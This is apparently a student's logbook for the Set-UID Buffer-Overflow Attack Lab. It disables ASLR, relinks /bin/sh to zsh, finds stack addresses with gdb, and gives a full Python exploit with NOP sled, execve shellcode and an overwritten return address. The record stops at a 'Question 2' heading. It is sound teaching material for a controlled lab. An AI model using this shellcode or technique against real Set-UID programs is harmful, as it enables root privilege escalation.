


# Buffer-Overflow Attack Lab - Set-UID Version

# Introduction

In this logbook we will execute an exploit related to buffer-overflow. To do that we need to turn off some countermeasures of the system.

To prevent this type of attacks the systems implemented an address space randomization that will randomize the starting address of heap and stack. This makes guessing the addresses, one of the critical steps of buffer-overflow attacks, much more difficult.

To turn off this feature we ran this command:

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

In the recent versions of Ubuntu OS, the `/bin/sh` symbolic link points to the `/bin/dash` shell. The `dash` program, as well as `bash`, has implemented a security countermeasure that prevents itself from being executed in a `Set-UID` process.

So we used the following command to link `/bin/sh` to another shell that doesn't have such a countermeasure `zsh`:

```bash
$ sudo ln -sf /bin/zsh /bin/sh
```

## Question 1

### Task 1

In this task we can understand how a shell code works. Using the code provided in the file *call_shellcode.c* we can initiate a new shell. When we compile this program with the given *Makefile* it will create two binaries, *a32.out* and *a64.out*. Runnig them we will see that a new shell is initiated. 

### Task 2

In this task we can understand better the way the attack will be performed. First we disabled certain security mechanisms, to ensure that the program is susceptible to a buffer overflow attack, only then we compiled the vulnerable program `stack.c`. By setting the program as a root-owned Set-UID program, we were created the conditions needed for potential privilege escalation when the vulnerability is exploited in the next task.

### Task 3

In this task we used `gdb` to debug the file `stack-L1-dbg` that we create using the Makefile.
Using this tool we can obtain the ebp and the buffer address and this way we can calculate the offset that is the difference between the ebp address and the buffer adress plus 4. With the offset we know were the eip address is and we can manipulate it to have the address of some function we want to run instead of the address of the point were the eip is pointing for. In this case we will put in this address the address of our shellcode.

Knowing this we create a script in python (`exploit.py`) were we create a badfile with 517 nop's (this will overflow the buffer because the size is 100+8*6).


<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 1: Ebp and buffer adresses</figcaption>
    </figure>
</div>

 

``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f" 
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31" 
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca7c + start         # Change this number 
offset = 0xffffcb18 - 0xffffca7c + 4             # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
  ```


<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 2: Exploit working</figcaption>
    </figure>
</div>

## Question 2

